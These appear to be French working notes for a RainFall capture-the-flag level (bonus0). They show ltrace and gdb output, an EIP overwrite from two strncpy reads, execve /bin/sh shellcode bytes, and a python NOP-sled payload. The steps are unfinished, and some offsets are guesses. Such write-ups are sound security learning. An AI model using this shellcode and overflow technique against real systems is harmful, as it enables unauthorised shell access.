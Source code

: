 bonus0@RainFall:~$ ltrace ./bonus0 
__libc_start_main(0x80485a4, 1, 0xbffff6f4, 0x80485d0, 0x8048640 <unfinished ...>
puts(" - " - )                                      = 4
read(0, lol"lol\n", 4096)                           = 4
strchr("lol\n", '\n')                               = "\n"
strncpy(0xbffff5d8, "lol", 20)                      = 0xbffff5d8
puts(" - " - )                                      = 4
read(0, lol"lol\n", 4096)                           = 4
strchr("lol\n", '\n')                               = "\n"
strncpy(0xbffff5ec, "lol", 20)                      = 0xbffff5ec
strcpy(0xbffff626, "lol")                           = 0xbffff626
strcat("lol ", "lol")                               = "lol lol"
puts("lol lol"lol lol)                              = 8

En testant 20 * A dans le premier read et 20 * B dans le deuxieme
En mettant un break point a la fin du main j'arrive a obtenir une valeur de ebp modifier

ebp            0x42424242       0x42424242
eip = 0x80485cb in main; saved eip 0x42424242

Donc le retour de la fonction main est modifier
On va surement pouvoir envoyer un shellcode de cette maniere

On reprend notre shellcode : "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

40 pour le premier ?
Offset 9 pour le deuxieme read

0x bf ff f6 10
r < <(python -c 'print "\x90"*20 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"' ; python -c 'print "\x90"*20 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')


Chercher une valeur dans la memoire : 

(gdb) find START_ADDR, END_ADDR, VALEUR

Obtenir la plage memoire :

(gdb) info proc mappings

Exemple :

(gdb) find $esp, +1000, 0x41
(gdb) find $esp, +1000, 0x6a, 0x0b, 0x58, 0x99


Ok donc avec ca on reprend du debut parce que la c'est la cata cata

Avec breakpoint dans p()
Avant leave
(gdb) find $esp, +1000, 0x41414141
0xbfffe590
(gdb) find $esp, +1000, 0x42424242
0xbfffe590

Apres leave :
(gdb) find $esp, +1000, 0x41414141
0xbffff5c8
(gdb) find $esp, +1000, 0x42424242
0xbffff5dc



Avec breakpoint dans pp()
Avant leave :
(gdb) find $esp, +1000, 0x41414141
0xbffff616
(gdb) find $esp, +1000, 0x42424242
0xbffff61b
Pas de leave dans pp()

Avec breakpoint dans main()
(gdb) find $esp, +1000, 0x42424242
0xbffff61b
(gdb) find $esp, +1000, 0x41414141
0xbffff616
donc dans le contexte du main les adresses et valeurs sont identiques

Regardons apres le leave :
(gdb) find $esp, +1000, 0x42424242
Pattern not found.
(gdb) find $esp, +1000, 0x41414141
Pattern not found.

not found car %esp est mov dans %ebp donc le find ne trouve pas a partir de %esp mais les valeurs/adresses sont toujours bien la :

(gdb) x/x 0xbffff61b
0xbffff61b:     0x42424242
(gdb) x/x 0xbffff616
0xbffff616:     0x41414141

(gdb) find 0xbffff616, +1000, 0xb7e454d3
0xbffff64c
0xbffff64c:     0xb7e454d3

On a notre adresse a modifier et sa position dans la stack ! MAGNIFIKE MA CHERIE

